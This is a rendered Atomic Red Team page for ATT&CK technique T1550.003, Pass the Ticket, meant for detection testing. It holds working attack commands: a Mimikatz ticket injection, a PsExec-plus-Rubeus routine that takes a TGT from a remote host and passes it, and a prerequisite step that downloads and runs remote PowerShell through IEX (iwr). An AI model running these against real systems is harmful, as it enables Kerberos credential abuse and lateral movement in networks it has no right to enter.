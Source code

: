 # T1550.003 - Use Alternate Authentication Material: Pass the Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/003)
<blockquote>Adversaries may “pass the ticket” using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for [Valid Accounts](https://attack.mitre.org/techniques/T1078) are captured by [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.(Citation: ADSecurity AD Kerberos Attacks)(Citation: GentilKiwi Pass the Ticket)

A [Silver Ticket](https://attack.mitre.org/techniques/T1558/002) can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).(Citation: ADSecurity AD Kerberos Attacks)

A [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.(Citation: Campbell 2014)

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. [Pass the Hash](https://attack.mitre.org/techniques/T1550/002)) while also using the password hash to create a valid Kerberos ticket.(Citation: Stealthbits Overpass-the-Hash)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Kerberos Ticket Attack](#atomic-test-1---mimikatz-kerberos-ticket-attack)

- [Atomic Test #2 - Rubeus Kerberos Pass The Ticket](#atomic-test-2---rubeus-kerberos-pass-the-ticket)


<br/>

## Atomic Test #1 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


**auto_generated_guid:** dbf38128-7ba7-4776-bedf-cc2eed432098





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ticket | Ticket file name usually format of 'id-username&#92;@domain.kirbi' (e.g. can be dumped by "sekurlsa::tickets /export" module) | string | |
| mimikatz_exe | Path of the Mimikatz binary | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;bin&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_exe} "kerberos::ptt #{ticket}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz must exist on disk at specified location (#{mimikatz_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{mimikatz_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$basePath = Split-Path #{mimikatz_exe} | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Rubeus Kerberos Pass The Ticket
Requesting a TGT on a remote system and retrieving it locally before requesting a service ticket with it. This is a Pass-The-Ticket attack because the TGT is obtained on the remote system, then used from a different machine (local).
PsExec is used to execute commands on the remote system, and the "C$" admin share is used to retrieve the TGT, so the current user must have admin rights remotely and other PsExec prerequisites must be met.

**Supported Platforms:** Windows


**auto_generated_guid:** a2fc4ec5-12c6-4fb4-b661-961f23f359cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target | Remote system to request the TGT from | string | localhost|
| user_name | username associated with the ticket (privileged account not required) | string | Administrator|
| password | password for user_name | string | Password|
| domain | domain | string | $Env:USERDOMAIN|
| rubeus_url | URL of Rubeus executable | url | https://github.com/morgansec/Rubeus/raw/de21c6607e9a07182a2d2eea20bb67a22d3fbf95/Rubeus/bin/Debug/Rubeus45.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
& "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -accepteula \\#{target} -w c:\ -c "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgt /user:#{user_name} /password:#{password} /domain:#{domain} /outfile:ticket.kirbi
Set-Location PathToAtomicsFolder\..\ExternalPayloads
Move-Item -Force "\\#{target}\c$\ticket.kirbi" ticket.kirbi
Write-Host "Successfully retrieved TGT from '#{target}', now requesting a TGS from local"
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" asktgs /service:cifs/#{target} /ticket:ticket.kirbi /ptt
Remove-Item PathToAtomicsFolder\..\ExternalPayloads\ticket.kirbi
& "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe" purge
```




#### Dependencies:  Run with `powershell`!
##### Description: Rubeus must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-Webrequest -Uri #{rubeus_url} -OutFile "PathToAtomicsFolder\..\ExternalPayloads\rubeus.exe"
```
##### Description: PsExec must exist on disk at "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe"
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip"
Expand-Archive PathToAtomicsFolder\..\ExternalPayloads\PsTools.zip PathToAtomicsFolder\..\ExternalPayloads\PsTools -Force
New-Item -ItemType Directory (Split-Path "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe") -Force | Out-Null
Copy-Item PathToAtomicsFolder\..\ExternalPayloads\PsTools\PsExec.exe "PathToAtomicsFolder\..\ExternalPayloads\PsExec.exe" -Force
```




<br/>
